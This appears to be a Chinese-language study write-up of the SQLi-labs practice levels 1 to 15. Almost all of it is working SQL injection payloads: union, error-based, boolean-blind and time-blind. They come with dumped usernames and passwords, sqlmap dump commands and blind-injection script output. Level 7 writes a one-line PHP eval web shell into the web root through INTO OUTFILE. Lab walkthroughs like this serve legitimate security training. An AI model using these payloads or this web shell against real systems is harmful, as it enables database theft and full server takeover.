








# Pass01

## 1.判断注入点


GET型注入基于错误的单引号，字符型

地址栏后面加上`?id=1`就能看到页面有回显



既然标题已经提示了是字符型注入，那我们在地址栏后面加上一个单引号。



页面报错，可以推断此处的sql语句的样子 

```
SELECT * FROM xx_table WHERE id='$id' LIMIT 0,1
```

##  2.猜解列名数量

`?id=1' order by 3 --+` 显示正常

`?id=1' order by 4 --+`报错


```
select * from users where id='1' order by 3 --+' limit 0,1
```

构造出来是这个样子

所以能够判断有三个字段，也就是三列数据。

## 3. 判断回显位置

`?id=-1' union select 1,2,3 --+`

```
 select * from users where id='-1' union select 1,2,3 --+' limit 0,1
```

让union前的语句无法执，通过后面显示的123来判断回显点。

可以看到2,3是回显点。


##  4.信息收集

database() 数据库名称

version()  数据库的版本

 `?id=-1' union select 1,database(),version()--+ `

```\
select * from users where id='-1' union select 1,database(),version()--+' limit 0,1
```

可以看到数据库名称和版本


## 5.使用对应的payload进行注入

### 查询所有的数据库

> group_concat()函数可以让多个数据在一行显示  

`?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+`

```
select * from users where id='-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+' limit 0,1
```


能看到所有的数据库

```
information_schema
challenges
dvwa_com
performance_schema
security
sql
sys
```

### 查询当前数据库有哪些表

`?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+ `

```
select * from users where id='-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+' limit 0,1
```


```
表名
emails
referers
uagents
users
```

### 查询字段名

`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

```
select * from users where id='-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+' limit 0,1
```



```
users的字段名
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
USER
CURRENT_CONNECTIONS
TOTAL_CONNECTIONS
id
username
password
```

### 查看字段内容

`?id=-1' union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

这里0x7e是~的16进制，能够将用户名和密码隔开，便于分辨。



```
用户~口令:
Dumb~Dumb
Angelina~I-kill-you
Dummy~p@ssword
secure~crappy
stupid~stupidity
superman~genious
batman~mob!le
admin~admin
admin1~admin1
admin2~admin2
admin3~admin3
dhakkan~dumbo
admin4~admin4
```

 # Pass0



GET型，数字型注入

这一关和上一关不同处就在于 这一关的参数外面没有加引号，也就不用考虑闭合的问题


后续步骤都除了需去掉id=1后面的引号其他上一关一模一样，这里就不过多赘述。

# Pass03



GET型 基于错误的单引号括号字符型注入

我们输入`?id=1'`,报错，说明这我们输入的内容是在一对圆括号中


```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

所以其实这一关和第一关还是没有多大区别，我们只需在闭合单引号的同时闭合圆括号

``?id=1') order by 4 --+`报错，没有第4列`

``?id=-1') union select 1,2,3 --+`显示2，3是回显点。`

`?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata --+`查库名

`?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`查表名

`?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns  where table_name ='users'--+`查字段名

`?id=-1') union select 1,2,(select group_concat(username,0x7e,password) from users)--+`查字段内容

# Pass04



基于错误的GET双引号字符型注入

```
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

输入`?id=1"`报错


所以输入的数据是被放在一对圆括号和双引号当中

`?id=1") order by 4--+`报错

`?id=1") order by 3--+`不报错,3列


`?id=-1") union select 1,2,3 `--+回显点2,3


`?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata --+`


`?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`


`?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`


`?id=-1") union select 1,2,(select group_concat(username,0x7e,password) from users)--+`

# Pass05

```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1'`有报错

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

**用'闭合**
`?id=1' order by 4--+`提示第4列不存在
`?id=1' order by 3--+` 发现没有了用户和ID的回显，只有”You are ing..",

`?id=1' union select 1,2,3--+`也只显示”You are ing.."，没有显示回显点。
`?id=1'and 1=2--+`没有回显条件为假的错误。

条件正确有回显，条件错误没有回显；
有报错回显， 采取报错注入的方法， <a name="QcX1G"></a>

报错注入

**报错注入**的运用前提是需要有数据库错误的显示

```bash
print_r(mysql_error());是能够使用报错的前提。
```

报错常用的三个函数，**extractvalue()**,**updatexml(),floor()**,还有**exp() **

<a name="tKncj"></a>

用extractvalue函数进行报错注入

extractvalue(1,1) <a name="FbE6V"></a>

## 查看数据库名称

`?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+`
或
`?id=1' or extractvalue(1,concat(0x7e,(select database()),0x7e))--+`

> 显示XPATH syntax error: '~security~'
> XPATH语法错误：“~security~”

<a name="FheLm"></a>

## 查看数据表名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))--+`

> 显示XPATH syntax error: '~emails,referers,uagents,users~'
> XPATH语法错误：'~emails，referers，uagents，users~'

## 查看字段名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))--+`

> 显示XPATH syntax error: '**~user\_id,first\_name,last\_name,us**'
> group\_concat()函数**可能放不下所有内容**，可以采用**截取**或者**limit函数**读取

可以看出，爆出的字段名称长度超出了32，所以需要使用substring（）函数每隔32位截取一次，最终拼凑出全部内容。
?id=1' or extractvalue(1,concat(0x7e,substring((select group\_concat(column\_name) from information\_schema.columns where table\_name='users' ),1,31),0x7e))--+

> XPATH syntax error: '~user\_id,first\_name,last\_name,us'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),32,31),0x7e))--+`

> XPATH syntax error: '~er,password,avatar,last\_login,f'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),64,31),0x7e))--+`

> XPATH syntax error: '~iled\_login,USER,CURRENT\_CONNECT'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),95,31),0x7e))--+`

> XPATH syntax error: '~IONS,TOTAL\_CONNECTIONS,id,usern'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),126,31),0x7e))--+`

> XPATH syntax error: '~ame,password~'

**拼接：**
user\_id,
first\_name,
last\_name,
user,
password,
avatar,
last\_login,
filed\_login,
USER,
CURRENT\_CONNECT~IONS,
TOTAL\_CONNECTIONS,
id,
username,
password <a name="g9URs"></a>

### 或者只查看当前数据库表字段名称：

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e))--+`

> XPATH syntax error: '~id,username,password~'

## 查看字段内容

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e))--+`

> XPATH syntax error: '~Dumb^Dumb,Angelina^I-kill-you,D'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e))--+`

> XPATH syntax error: '~ummy^p@ssword,secure^crappy,stu'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e))--+`

> XPATH syntax error: '~pid^stupidity,superman^genious,'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e))--+`

> XPATH syntax error: '~batman^mob!le,admin^admin,admin'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e))--+`

> XPATH syntax error: '~1^admin1,admin2^admin2,admin3^a'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e))--+`

> XPATH syntax error: '~dmin3,dhakkan^dumbo,admin4^admi'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e))--+`

> XPATH syntax error: '~n4~'

拼接用户^密码：
Dumb^Dumb,
Angelina^I-kill-you,
Dummy^p@ssword,
secure^crappy,
stupid^stupidity,
superman^genious,
batman^mob!le,
admin^admin,
admin1^admin1,
admin2^admin2,
admin3^admin3,
dhakkan^dumbo,
admin4^admin4

# Pass06

```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

`?id=1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" LIMIT 0,1' at line 1

less6与less5的唯一区别在于闭合方式为双引号"\ <a name="MK1Je"></a>

用updatexml()函数进行报错注入

updatexml(1,1,1)

## 查看数据库名称

`?id=1" or updatexml(1,concat(0x7e,(select database()),0x7e),1)--+`

> XPATH syntax error: '~security'

<a name="CeOmH"></a>

## 查看数据表名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~emails,referers,uagents,users~'

<a name="vqZkZ"></a>

## 查看字段名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~id,username,password~'

<a name="dltOi"></a>

## 查看字段内容

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(concat(username,' ^ ',password)) from users),0x7e),1)--+`

> XPATH syntax error: '~Dumb ^ Dumb,Angelina ^ I-kill-y'

substring(1,2,3)
`?id=1" or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,' ^ ',password)) from users),32,31),0x7e),1)--+`

> XPATH syntax error: '~ou,Dummy ^ p@ssword,secure ^ cr'

# Pass07

```
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
```

`?id=1`

> You are in.... Use outfile......
> 输出文件

`?id=1'`

> You have an error in your SQL syntax
> SQL语法有错误


> SQl注入的写入与读取 
> 读取文件 load_file(文件的路径) 
> 写入文件into outfile(),into_dumpfile() 
> 首先还是先猜解闭合方式，单引号加两个小括号 '))  

 布尔盲注 

`?id=1')) order by 4--+`

> You have an error in your SQL syntax

`?id=1')) order by 3--+`

> You are in.... Use outfile......

 通过页面回显布尔方式猜解到字段数为3

 sql读写 

> 能够读写需要的几个条件 
> \1. 需要高权限(root权限) 
> \2. 需要有问加写入权限secure_file_priv不是NULL 
> \3. 需要知道绝对路径 
> \4. 魔术引号gbc时关闭的 magic_quotes_gpc = Off  

 查看网站绝对路径 

在第一关输入：

`?id=-1'union select 1,2,@@datadir`

> Your Login name:2 Your Password:E:\phpstudy_pro\Extensions\MySQL5.7.26\data\

推断出网站的绝对路径为 E:\phpstudy_pro\www\

 读写权限测试 

`?id=1')) and (select count(*) from mysql.user)>0 %23`

返回正常，有读取权限


 into outfile函数 

`?id=1')) union select 1,2,3 into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\1.txt"`

多次测试后一直写入失败，查询后得知权限过低

需要打开phpstudy\MySQL\my.ini文件，在其中加上一句：secure_file_priv="/"

重启mysql后生效

 关键步骤写入木马  


http://192.168.1.101/Less-7/shell.php

> ​	<?php @eval($_POST['cmd']) ?>


 使用工具连接 




 总结 

对文件进行导入导出首先得要有足够的权限，

但是mysql默认不能导入和导出文件，这与secure_file_priv的值有关（默认为null)

secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

1、当secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

2、当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

3、当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制


用以下命令查看secure_file_priv的值

show variables like ‘%secure%’;


由于先前已做过修改，这里显示的是可导入导出


如果是null，想得到导入导出权限，可以在my.ini文件[mysqld]的后面加上secure_file_priv=''（两个英文单引号），然后重启phpstudy即可

1、outfire 后面的路径为绝对路径且存在
2、要有足够的权限
3、注入的内容也可以是字符串，句子
4、要想注入新内容，需要新的文件名

这里写入文件的时候，需要注意的是利用数据库file权限向操作系统写入文件时，对于相同文件名的文件不能覆盖，所以如果第一次上传1.php，下次再上传1.php，就是无效命令了，也就是新的test.php中的内容并不会覆盖之前的1.php


可以不爆出路径直接将木马写在根目录


 用常规流程 

 导出数据库名 

`?id=-1')) union select 1,user(),database() into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\1.txt" --+`

浏览器访问http://192.168.31.193/Less-7/1.txt

1	root@localhost	security

 导出表名 

`?id=-1')) union select 1,2,table_name from information_schema.tables where table_schema='security' into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\2.txt" --+`

浏览器访问http://192.168.31.193/Less-7/2.txt

1	2	emails 
1	2	referers 
1	2	uagents 
1	2	users

 导出列名 

`?id=-1')) union select 1,2,column_name from information_schema.columns where table_schema='security' and table_name='users' into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\3.txt" --+`

浏览器访问http://192.168.31.193/Less-7/3.txt

1	2	id 
1	2	username 
1	2	password

 导出数据 

`?id=-1')) union select 1,username,password from users into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\4.txt" --+`

浏览器访问http://192.168.31.193/Less-7/4.txt

> 1	Dumb	Dumb 
> 1	Angelina	I-kill-you 
> 1	Dummy	p@ssword 
> 1	secure	crappy 
> 1	stupid	stupidity 
> 1	superman	genious 
> 1	batman	mob!le 
> 1	admin	admin 
> 1	admin1	admin1 
> 1	admin2	admin2 
> 1	admin3	admin3 
> 1	dhakkan	dumbo 
> 1	admin4	admin4


# Pass08

```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1'`没有报错显示，报错注入不能够实现注入了。
`?id=1`显示You are in...........
&#x20;对和错返回不同的页面回显，可以采用**布尔盲注**的方式， <a name="WUqxX"></a>

布尔盲注

<a name="MJTYd"></a>

## 判断字段数

`?id=1' order by 4 --+`没有显示报错
`?id=1' order by 3 --+`显示You are in
&#x20;由此可以判断**字段数为3  ** <a name="cU19o"></a>

## 判断数据库名称长度

`?id=-1 or length(database())>8 --+`无内容
`?id=-1 or length(database())=8`有内容
说明**数据库长度为8**

> 一般采用逻辑或，因为无法确保前面的条件一定为真

<a name="frb3M"></a>

### 逐一猜解数据库名称

<a name="a5hHH"></a>

`?id=-1' or ascii(substr(database(),1,1))>115--+`无
`?id=-1' or ascii(substr(database(),1,1))=115--+`有
第一个字符是s
...
或者
` ?id=-1' or **ascii**(mid(database(),1,1))=115--+`有&#x20;
...
或者
`?id=-1' or mid(database(),1,1)='s'--+ `有
...

> **MID函数**表示按照指定的条件对字符串进行截取。
> 语法结构：=MID(目标单元格，开始位置，截取长度)
> 注意：该函数的提取方法是从左往右提取指定的数据。

<br />
<a name="SzUFc"></a>

## 猜解数据表名称

`?id=-1' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101--+`<br />第一个字符是e
<a name="Y2AQJ"></a>

## 猜解字段名称  

`?id=-1' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+`<br />第一个字符是i
<a name="RNwwH"></a>

## 猜解字段内容

`?id=-1' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+`<br />第一个字符是D

对于布尔盲注的问题，一般采用脚本进行猜解或者使用sqlmap\ <a name="kRQp0"></a>

# 使用python布尔盲注脚本

```bash
┌──(root?guoyx)-[/home/kali/sql-python]
└─# python3 bool-blind.py    
[-]开始测试数据库名长度.......
[+]数据库长度：8

[-]开始测试数据库名.......
[+]数据库名：security

开始测试security数据库有几张表........
[+]security库一共有4张表

[-]开始猜解表名.......
第1张表名长度：6
[+]：emails
第2张表名长度：8
[+]：referers
第3张表名长度：7
[+]：uagents
第4张表名长度：5
[+]：users

[+]security库下的4张表：['emails', 'referers', 'uagents', 'users']

[-]开始猜解每张表的字段数：.......
[+]emails表	2个字段
[+]referers表	3个字段
[+]uagents表	4个字段
[+]users表	3个字段

[+]表对应的字段数：[2, 3, 4, 3]

[-]开始猜解每张表的字段名.......

[+]emails表的字段：
[+]：id
[+]：email_id

[+]referers表的字段：
[+]：id
[+]：referer
[+]：ip_address

[+]uagents表的字段：
[+]：id
[+]：uagent
[+]：ip_address
[+]：username

[+]users表的字段：
[+]：id
[+]：username
[+]：password

[-]对users表的['id', 'username', 'password']字段进行爆破.......


[+]users表中的id字段有以下13条数据：
[+]1
[+]2
[+]3
[+]4
[+]5
[+]6
[+]7
[+]8
[+]9
[+]10
[+]11
[+]12
[+]14

[+]users表中的username字段有以下13条数据：
[+]Dumb
[+]Angelina
[+]Dummy
[+]secure
[+]stupid
[+]superman
[+]batman
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dhakkan
[+]admin4

[+]users表中的password字段有以下13条数据：
[+]Dumb
[+]I-kill-you
[+]p@ssword
[+]crappy
[+]stupidity
[+]genious
[+]mob!le
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dumbo
[+]admin4
```


# Pass09

```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1`显示You are in...........
`id=1'`也显示You are in...........
&#x20;尝试了N种闭合方式之后发现页面的**回显都是一样的**并且**没有任何报错信息**，
通过源码找到字符型闭合 ’
浅试一下**时间盲注**\ <a name="V17MH"></a>

# 时间盲注

<a name="kObnI"></a>

## 猜解数据库名称

> **if(1,sleep(5),0)**
> if()函数中，
>
> - x为布尔盲注中的长度、字符猜测语句，如：length(database())=1
> - sleep()函数，a为时间间隔，如果前面的语句x为真，则在页面出来前间隔a秒；
> - 0：占位

`?id=-1' or if(ascii(mid(database(),1,1))<=135,sleep(5),0)--+` 延时五秒了 <a name="kSZVm"></a>

## 猜解数据表名称

`?id=-1' or if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database(),1,1)='e'),sleep(5),0)--+` <a name="j47RV"></a>

## 猜解字段名称

`?id=-1' or if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='e',sleep(5),0)--+` <a name="aRdmK"></a>

## 猜解字段内容

`?id=-1' or if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(5),0)--+`


# sqlmap

```bash
┌──(root㉿guoyx)-[~]
└─# sqlmap -u 192.168.31.193/Less-9/?id=1 --batch -D "security" -T "users" --dump

Database: security
Table: users
[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+
```

# Pass10

```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

双引号闭合

`?id=1"`显示You are in...........
`?id=1"`也显示You are in...........

与Less9的区别在于闭合方式为 双引号，
同样是时间盲注

使用python时间盲注脚本

[time-blind.py](https://www.yuque.com/attachments/yuque/0/2022/py/29430497/1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fpy%2F29430497%2F1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py%22%2C%22name%22%3A%22time-blind.py%22%2C%22size%22%3A3709%2C%22type%22%3A%22text%2Fx-python%22%2C%22ext%22%3A%22py%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22uccc0b203-7879-4264-955e-69651a58aa2%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22ua027682d%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)

> url = 'http://192.168.31.193/Less-10/?id=1"'

```bash
┌──(root㉿guoyx)-[/home/kali/sql-python]
└─# python3 time-blind.py 
数据库名为->s
数据库名为->se
数据库名为->sec
数据库名为->secu
数据库名为->secur
数据库名为->secur
数据库名为->securt
数据库名为->securty
第一个表为->e
第一个表为->em
第一个表为->ema
第一个表为->emai
第二个表为->f
第二个表为->fe
第三个表为->s
字段二为->H
字段二为->H*
```

数据库名为securty

# Pass11

发现是一个登录页
`1'`单引号闭合
使用万能密码。
username输入`admin' or 1-- +`成功登录. 

联合查询

<a name="tFdi3"></a>

## 查询字段数

`1' order by 3-- +`

> 登录后页面报错Unknown column '3' in 'order clause'

`1' order by 2-- +`
没有提示错误，说明有2个字段；


## 判断回显点

`1' union select 1,2 #`
显示1，2。判断出页面有两个显示位；


## 爆数据库名

`1' union select 1,group_concat(schema_name) from information_schema.schemata #`

> Your Login name:1
> Your Password:information\_schema,challenges,dvwa\_com,mysql,performance\_schema,security,sql,sys


## 爆数据表名

`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

> Your Login name:1
> Your Password:emails,referers,uagents,users


## 爆字段名

`1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #`

> Your Login name:1
> Your Password:id,username,password


## 爆字段内容

`1' union select 1,(select group_concat(username,'^',password)from users) #`

>Your Login name:1
>Your Password:Dumb^Dumb,
>Angelina^I-kill-you,
>Dummy^p@ssword,
>secure^crappy,
>stupid^stupidity,
>superman^genious,
>batman^mob!le,
>admin^admin,
>admin1^admin1,
>admin2^admin2,
>admin3^admin3,
>dhakkan^dumbo,
>admin4^admin4

## sqlmap

```
启动sqlmap探测注入点
sqlmap -u ip --data="uname=admin&passwd=admin" --batch
爆破当前数据库名
sqlmap -u ip --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security --tables
最后脱库
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security -T users --dump
```


## 或者将抓包内容保存到.txt文件中

```bash
sqlmap.py -r 1.txt -p 'uname' --batch
爆破数据库
sqlmap.py -r 1.txt -p 'uname' --batch --current-db
爆破表
sqlmap.py -r 1.txt -p 'uname' --batch -D security --tables
脱库
sqlmap.py -r 1.txt -p 'uname' --batch -D security --dump
```

# Pass12

```bash
$uname='"'.$uname.'"';
	$passwd='"'.$passwd.'"'; 
	@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
```

`1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") and password=("") LIMIT 0,1' at line 1

用**")**闭合
1")
与Less11的区别就是闭合方式的不一样，注入方式完全一样。 

## 报错注入

之前用过了 extractvalue() 函数， updatexml()函数 ，现在试试 floor()函数&#x20;
`-1") union select count(*),concat(0x7e,database(),0x7e,**floor(rand(0)*2)**)x from information_schema.tables **group by x**-- +`

```bash
爆破数据库
-1") union select count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破数据表
-1") union select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段表
-1") union select count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段
-1") union select count(*),concat(0x7e,(select username from users limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
```

# Pass13

```bash
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
```

与Less12的唯一区别为闭合方式为**')** &#x20;
`1')` 

报错注入

用**updatexml()函数**进行报错注入 &#x20;
updatexml（1，2，3）

```bash
查询字段数
1') order by 3-- + 
登录后页面报错Unknown column '3' in 'order clause'
1') order by 2-- +
没有提示错误，说明有2个字段；

判断回显点
1') union select 1,2 -- +
没有显示1，2

查询数据库表
-1') or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1') or updatexml(1,concat(0x7e,(select (table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1') or updatexml(1,concat(0x7e,(select (column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1') or updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +

```

# Pass14

```bash
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
```

与Less12的区别闭合方式为**" **&#x20;
`1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" and password="" LIMIT 0,1' at line 1

继续使用updataxml()函数

```bash
查询数据库表
-1" or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1" or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1" or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1" or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```

# Pass15

```bash
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

用单引号'闭合
`1'`显示红色的图片
`admin' order by 2-- +`显示蓝色图片

`admin' union select 1,2-- +`蓝色图片

正确的数据与错误数据页面回显的图片不一样，使用**布尔盲注**

布尔盲注

```bash
判断数据库名称长度
admin' or length(database())=8--+
显示蓝色图片，说明数据库长度为8

逐一猜解数据库名称
admin' or ascii(substr(database(),1,1))=115--+
第一个字符是s  ...

猜解数据表名称
admin' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
